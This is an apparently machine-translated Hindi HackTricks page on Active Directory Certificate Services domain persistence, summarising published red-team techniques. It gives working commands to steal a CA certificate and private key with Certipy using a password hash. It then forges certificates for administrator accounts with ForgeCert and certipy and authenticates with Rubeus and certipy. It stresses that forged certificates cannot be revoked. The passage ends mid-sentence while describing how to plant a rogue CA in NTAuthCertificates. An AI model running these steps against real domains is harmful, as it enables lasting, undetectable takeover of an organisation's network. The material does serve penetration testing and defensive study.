 # एडी सीएस डोमेन स्थिरता

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें और PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos को अपडेट करें।

</details>

**यह [https://www.specterops.io/assets/resources/Certified\_Pre-Owned.pdf](https://www.specterops.io/assets/resources/Certified\_Pre-Owned.pdf) में साझा की गई डोमेन स्थिरता तकनीकों का सारांश है**। अधिक विवरण के लिए इसे देखें।

## चोरी गई सीए प्रमाणपत्रों के साथ प्रमाणपत्र बनाना - DPERSIST1

एक प्रमाणपत्र को CA प्रमाणपत्र मानने के लिए आप कैसे कह सकते हैं?

यह तय किया जा सकता है कि एक प्रमाणपत्र एक CA प्रमाणपत्र है अगर कई शर्तें पूरी होती हैं:

- प्रमाणपत्र CA सर्वर पर संग्रहीत है, जिसकी निजी कुंजी को मशीन के DPAPI द्वारा सुरक्षित किया गया है, या यदि ऑपरेटिंग सिस्टम इसे समर्थन करता है तो TPM/HSM जैसे हार्डवेयर द्वारा।
- प्रमाणपत्र के इश्यूर और सब्जेक्ट फ़ील्ड CA के विभाजन नाम से मेल खाते हैं।
- "CA संस्करण" एक्सटेंशन केवल CA प्रमाणपत्रों में मौजूद है।
- प्रमाणपत्र में Extended Key Usage (EKU) फ़ील्ड गायब है।

इस प्रमाणपत्र की निजी कुंजी को निकालने के लिए, CA सर्वर पर `certsrv.msc` उपकरण बिल्ट-इन GUI के माध्यम से समर्थित विधि है। फिर भी, यह प्रमाणपत्र सिस्टम में संग्रहीत अन्य प्रमाणपत्रों से अलग नहीं है; इसलिए, निकालने के लिए [THEFT2 तकनीक](certificate-theft.md#user-certificate-theft-via-dpapi-theft2) की तकनीक लागू की जा सकती है।

इस प्रमाणपत्र और निजी कुंजी को निम्नलिखित कमांड के साथ Certipy का उपयोग करके प्राप्त किया जा सकता है:
```bash
certipy ca 'corp.local/administrator@ca.corp.local' -hashes :123123.. -backup
```
जब CA प्रमाणपत्र और इसकी निजी कुंजी को `.pfx` प्रारूप में प्राप्त किया जाता है, तो [ForgeCert](https://github.com/GhostPack/ForgeCert) जैसे उपकरण का उपयोग करके मान्य प्रमाणपत्र उत्पन्न किए जा सकते हैं:
```bash
# Generating a new certificate with ForgeCert
ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword Password123! --Subject "CN=User" --SubjectAltName localadmin@theshire.local --NewCertPath localadmin.pfx --NewCertPassword Password123!

# Generating a new certificate with certipy
certipy forge -ca-pfx CORP-DC-CA.pfx -upn administrator@corp.local -subject 'CN=Administrator,CN=Users,DC=CORP,DC=LOCAL'

# Authenticating using the new certificate with Rubeus
Rubeus.exe asktgt /user:localdomain /certificate:C:\ForgeCert\localadmin.pfx /password:Password123!

# Authenticating using the new certificate with certipy
certipy auth -pfx administrator_forged.pfx -dc-ip 172.16.126.128
```
{% hint style="warning" %}
उस उपयोगकर्ता को प्रमाणपत्र जालीकरण के लिए लक्षित किया जाना चाहिए जो सक्रिय हो और सक्षम हो Active Directory में प्रमाणीकरण के लिए सफलता प्राप्त करने के लिए। krbtgt जैसे विशेष खातों के लिए प्रमाणपत्र जालीकरण करना अप्रभावी है।
{% endhint %}

यह जालीकृत प्रमाणपत्र **वैध** होगा जब तक निर्दिष्ट समाप्ति तिथि तक होगा और **मूल सीए प्रमाणपत्र वैध** होगा (सामान्यत: 5 से **10+ वर्ष** तक)। यह **मशीनों** के लिए भी वैध है, इसलिए **S4U2Self** के साथ मिलाकर, एक हमलावर किसी भी डोमेन मशीन पर **स्थिरता बनाए रख सकता है** जब तक सीए प्रमाणपत्र वैध है।\
इसके अतिरिक्त, इस विधि से **उत्पन्न प्रमाणपत्रों** को **रद्द नहीं किया जा सकता** क्योंकि सीए उनके बारे में जागरूक नहीं है।

## धोखाधड़ी सीए प्रमाणपत्रों पर विश्वास - DPERSIST2

`NTAuthCertificates` ऑब्जेक्ट को एक या एक से अधिक **सीए प्रमाणपत्रों** को शामिल करने के लिए परिभाषित किया गया है जिसे एक्टिव डायरेक्टरी (एडी) का उपयोग करता है। डोमेन कंट्रोलर द्वारा सत्यापन प्रक्रिया में शामिल है `NTAuthCertificates` ऑब्जेक्ट को चेक करना जो प्रमाणीकरण के आईशूअर फ़ील्ड में निर्दिष्ट सीए से मेल खाता है। यदि कोई मिलता है तो प्रमाणीकरण जारी रहता है।

एक आत्म-साइन किया गया सीए प्रमाणपत्र एक हमलावर द्वारा `NTAuthCertificates` ऑब्जेक्ट में जोड़ा जा सकता है, प्रदान किया गया कि उनके पास इस एडी ऑब्ज
